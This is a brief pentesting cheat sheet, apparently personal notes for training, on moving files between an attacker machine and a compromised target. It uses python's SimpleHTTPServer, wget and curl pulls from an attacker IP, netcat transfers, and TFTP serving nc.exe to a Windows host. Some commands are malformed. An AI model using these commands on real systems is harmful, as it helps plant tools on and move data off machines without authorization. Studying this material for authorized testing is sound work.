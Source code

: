 # File Transfers

---



This makes the entire folder where you executed the command on, available

    python -m SimpleHTTPServer 1234

wget or curl can be used on target to download the file

    wget 123.45.67.89:1234/file.txt
    curl -O http://123.45.67.89/file.txt



## Using Netcat

On attacker

    nc -lvp 1234 < file

On target

    nc 192.168.1.102 1234 > file

if wget/curl/nc are all not available, TFTP can be used

    tftp 192.168.0.101
    tftp> get somefile.txt

or

    tftp 192.168.1.254 <<< "get file.php file.php"



Source: https://chryzsh.gitbooks.io/pentestbook/transfering_files.html

Inside also includes ssh access with keypair



~~~bash
python -m SimpleHTTPServer 80
~~~



Getting file

~~~bash
wget x.x.x.x:1234/filename

curl x.x.x.x:1234/filename
~~~



## Netcat

Listen

~~~bash
nc -nlvp 1234 > file.txt
~~~



Send

~~~bash
nc -np 1234 < file.txt
~~~



If file is too big

~~~bash
cat bigassfile.txt | nc -np x.x.x.x 1234
~~~



---

WIP

---

TFTP
mkdir /tftp
atftpd –daemon –port 69 /tftp
cp /usr/share/windows-binaries/nc.exe /tftp/
EX. FROM WINDOWS HOST:
C:\Users\Offsec>tftp -i $ip get nc.exe

~~~

~~~